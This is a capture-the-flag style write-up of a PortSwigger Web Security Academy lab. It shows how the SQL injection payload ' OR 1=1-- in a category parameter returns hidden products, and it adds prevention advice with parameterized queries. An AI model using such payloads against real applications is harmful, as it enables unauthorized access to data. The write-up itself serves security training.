


## 🛡️ [01. SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


---

## 📖 Overview

This document demonstrates how a SQL Injection vulnerability in the `category` parameter can be exploited to retrieve hidden products. The application fails to validate user input before using it in an SQL query, allowing an attacker to manipulate the query and bypass application restrictions.

---

## 📋 Lab Details

| **Item**         | **Description**                                   |
| ---------------- | ------------------------------------------------- |
| 🌐 Platform      | PortSwigger Web Security Academy                  |
| 🔐 Category      | SQL Injection                                     |
| 📈 Difficulty    | Apprentice                                        |
| ⚠️ Vulnerability | SQL Injection (WHERE Clause)                      |
| 🛠️ Tools Used   | Burp Suite Community Edition, Firefox, Kali Linux |

---

## 🎯 Lab Objective

Retrieve hidden products by exploiting an SQL Injection vulnerability in the `category` parameter.

---

## 🔍 Understanding the Vulnerability

When a user selects a product category, the browser sends a request similar to:

```http
GET /filter?category=Pets HTTP/2
```

The application directly inserts the user input into the SQL query.

Example:

```sql
SELECT * FROM products
WHERE category='Pets'
AND released=1;
```

Since user input is not properly validated or parameterized, SQL Injection becomes possible.

---

## 🎯 Finding the Injection Point

The vulnerable parameter identified in Burp Suite:

```http
category=Pets
```

This parameter is directly reflected in the backend SQL query, making it vulnerable to SQL Injection.

---

## 💉 Payload Used

Injected Payload:

```sql
' OR 1=1--
```

Modified Request:

```http
GET /filter?category=Pets'+OR+1=1-- HTTP/2
```

---

## 🗄️ SQL Query Analysis

### 📄 Original Query

```sql
SELECT * FROM products
WHERE category='Pets'
AND released=1;
```

### 📄 Injected Query

```sql
SELECT * FROM products
WHERE category=''
OR 1=1--
AND released=1;
```

---

## ⚙️ Why the Payload Works

* 🔹 **`'`** closes the original SQL string.
* 🔹 **`OR 1=1`** always evaluates to **TRUE**, causing all rows to match.
* 🔹 **`--`** comments out the remaining SQL query, bypassing the `released=1` condition.

As a result, the application returns all products, including hidden ones.

---

## 🚀 Attack Flow

### ① Open the Lab

🖼️ *Insert Screenshot – Home Page*

---

### ② Select a Product Category

Example:

```text
Pets
```

---

### ③ Intercept the Request

```http
GET /filter?category=Pets HTTP/2
```

🖼️ 

---

### ④ Inject the Payload

```text
Pets' OR 1=1--
```

🖼️ 

---

### ⑤ Forward the Request

Send the modified request to the server.

---

### ⑥ Verify the Result

Hidden products are displayed successfully.

🖼️ 

---

## 💥 Impact

A successful SQL Injection attack may allow an attacker to:

* 🔓 Retrieve hidden data
* 🚫 Bypass application restrictions
* 📂 Access sensitive information
* ✏️ Modify database records
* ❌ Delete database records
* 👑 Potentially compromise the application

---

## 🛡️ Prevention

### ✅ Prepared Statements (Parameterized Queries)

```python
cursor.execute(
    "SELECT * FROM products WHERE category = %s",
    (category,)
)
```

Additional security measures:

* ✅ Validate and sanitize user input.
* ✅ Use parameterized queries.
* ✅ Apply the Principle of Least Privilege.
* ✅ Implement server-side input validation.
* ✅ Deploy a Web Application Firewall (WAF).

---

## 🛠️ Skills Demonstrated

* SQL Injection Testing
* Burp Suite
* HTTP Request Analysis
* SQL Query Analysis
* Web Application Security
* Manual Web Penetration Testing

---

## 📚 Key Takeaways

* Successfully identified an SQL Injection vulnerability.
* Intercepted and modified HTTP requests using Burp Suite.
* Exploited a vulnerable SQL query to retrieve hidden data.
* Understood the importance of secure coding practices and parameterized queries.

---

## ⚠️ Disclaimer

This project was completed in the **PortSwigger Web Security Academy** training environment for educational purposes only.

Do not perform these techniques against systems without explicit authorization.

